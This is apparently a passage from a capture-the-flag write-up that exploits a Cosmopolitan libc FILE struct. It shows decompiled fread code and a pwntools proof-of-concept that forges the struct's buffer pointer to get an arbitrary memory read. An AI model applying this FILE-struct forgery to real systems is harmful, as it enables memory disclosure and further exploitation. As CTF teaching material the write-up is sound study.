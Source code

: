 ```c
0000001C     unsigned int beg;
00000020     unsigned int end;
00000024     // padding byte
00000025     // padding byte
00000026     // padding byte
00000027     // padding byte
00000028     char *buf;
00000030     pthread_mutex_t lock;
00000058     Dll elem;                           // XREF: stdin_init:loc_4019BE/o
00000058                                         // stdout_init+6/o ...
00000068     char *getln;
00000070 };
```

since there is no function pointers in it we will have to get arb read/write and write into the stack.

opening the fread function, we see that it claims the lock then, calls `fread_unlocked` (which is where the logic of fread resides), it’s full decompilation is [here](/l3akctf2025-cosmofile/fread-decomp.c).

### Getting arb read:

we can see at first it does some checks for overflow / file is readable … etc , then it has this piece of code which can be used to getting arb read:

```c
v9 = count * (unsigned __int128)stride; // in our case v9 is (0x1000 * 1) = 0x1000
v13 = end - beg;
  if ( v13 >= (unsigned __int64)v9 )
  {
    nb = v9;
    memmove(buf, &f->buf[beg], v9);
    v32 = f->beg + nb;
    f->beg = v32;
    if ( v32 == f->end )
      *(_QWORD *)&f->beg = 0LL;
    return count;
  }
```

it checks if end - beg , which is the amount of data available in f->buf is bigger than how much fread wants, and if it is it just memmove’s the data from the f→buf to the user provided buffer (which will be written to stdout after fread finishes) then it returns, since we can control f→buf, we can get arb read using this.

here is a simple pwntools poc for getting arb read, our payload sets buf to the addr we want to read from and makes sure that end - beg is bigger than 0x1000, note that the payload is just the default values of the FILE struct with `beg`, `end`, `size` and `addr` replaced in, since they are the only values we want to change.

```python
def arb_read(addr):
    sz = 0x1000
    beg = 0x0
    end = 0x1000
    payload = p64(0x0000024200010100)+p64(0x0000000300000000)+p64(0x0000000000000000)\
    +p32(sz)+p32(beg)+p32(end)+p32(0x0)+p64(addr)+p64(0x0)+p64(0x2)+p64(0x0)*3\
    +p64(0x000000000042f338)+ p64(0x000000000042f3d8)+p64(0x0000000000000000)

    write_to_FILE(payload)
    return call_fread() 
```
